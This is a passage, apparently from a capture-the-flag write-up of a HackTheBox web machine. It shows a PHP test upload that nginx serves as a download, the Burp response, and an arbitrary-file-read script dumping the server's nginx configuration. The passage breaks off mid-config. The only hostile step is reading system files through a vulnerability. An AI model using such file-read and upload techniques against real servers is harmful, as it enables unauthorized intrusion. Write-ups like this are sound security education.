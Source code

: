 It seems to work, but visiting `/content/0xdf.php`, it just downloads the file, doesn’t execute it. In Burp, I’ll look at the response:

```

HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Mon, 15 May 2023 19:13:20 GMT
Content-Type: application/octet-stream
Content-Length: 58
Last-Modified: Mon, 15 May 2023 19:13:04 GMT
Connection: close
ETag: "64628440-3a"
Content-Disposition: attachment; filename=0xdf.php
Accept-Ranges: bytes

<div class = "blog-text"><?php echo "hello 0xdf"; ?></div>

```

It is returning this as a file, rather than executing it as PHP. This is likely due to the nginx configuration that is matching on this location and just adding the `Content-Disposition` header to set it as an attachment, rather than passing it to PHP for execution.

### Pro Access

#### nginx Config

To get a better look at how nginx is hosting and see if I missed any sub domains, I’ll look at the config file (using `grep` to remove comments):

```

oxdf@hacky$ python file_read.py /etc/nginx/sites-enabled/default | grep -vP "^\s*#"

server {
        listen 80 default_server;
        listen [::]:80 default_server;
        
        root \/var\/www\/html;

        index index.html index.htm index.nginx-debian.html;

        server_name _;

        location \/ {
                try_files $uri $uri\/ =404;
        }
}

server {
        listen 80;
        listen [::]:80;

        root \/var\/www\/microblog\/app;

        index index.html index.htm index-nginx-debian.html;

        server_name microblog.htb;

        location \/ {
                return 404;
        }

        location = \/static\/css\/health\/ {
                resolver 127.0.0.1;
```